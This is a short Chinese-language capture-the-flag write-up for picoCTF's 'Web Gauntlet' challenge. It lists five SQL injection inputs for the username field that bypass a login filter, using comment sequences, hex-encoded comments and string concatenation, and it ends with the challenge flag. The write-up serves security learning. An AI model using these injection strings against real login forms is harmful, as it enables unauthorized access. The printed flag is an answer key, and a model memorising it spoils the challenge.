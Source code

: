# Web Gauntlet
[Challenge](https://play.picoctf.org/practice/challenge/88)

## Solution


題目就是在考SQL Injection而已，filter.php那個連結會提示他過濾了那些字。但我很多題都送一樣的sql進去，反正能過關就好，也是因為我會的指令也不多就是了...

以下附上我每題的input，通通都是加在username那一欄，password隨便打：

```
1. admin';--
2. admin';0x2d2d
3. admin';0x2d2d
4. ad'||'min';0x2d2d
5. ad'||'min';0x2d2d
```

## Flag

picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}